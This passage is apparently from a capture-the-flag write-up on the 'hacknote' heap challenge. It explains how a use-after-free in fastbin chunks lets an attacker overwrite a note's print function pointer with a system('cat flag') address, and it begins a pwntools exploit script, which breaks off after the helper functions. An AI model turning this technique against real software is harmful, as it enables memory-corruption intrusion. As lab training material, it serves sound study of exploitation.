 - If you apply for `content chunk` and the size is `8`, the program will allocate two `0x10` `chunk` from the `0x10` unidirectional linked list of `fastbin`
- Since `chunk2` is released later, it is removed first in `fastbin`. The `struct chunk` space of the original `chunk2` is re-enabled as `struct chunk` of `chunk3`, and the `struct chunk` space of the original `chunk1` is re-enabled as `content chunk` of `chunk3`, and the structure diagram is shown in the figure

![](images/11.png#pic_center)

- In this way, when creating `chunk3`, write the `system("cat flag")` address directly when writing data to `content chunk`, and then `sys_addr` will be written at the position of the `print` function pointer of `chunk1`
- Since the `chunk` pointer is not empty when released, the printing function of `chunk1` can still be called. At this time, directly select `print_node` in the menu and select `node0` to trigger `system("cat flag")`

### EXP

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')

r = process('./hacknote')

def addnode(size, content):
    r.recvuntil(b'Your choice :')
    r.sendline(b'1')
    r.recvuntil(b'Note size :')
    r.sendline(size)
    r.recvuntil(b'Content :')
    r.sendline(content)

def delnode(index):
    r.recvuntil(b'Your choice :')
    r.sendline(b'2')
    r.recvuntil(b'Index :')
    r.sendline(index)

def printnode(index):
    r.recvuntil(b'Your choice :')
    r.sendline(b'3')
    r.recvuntil(b'Index :')
    r.sendline(index)


magic_addr = 0x08048986
```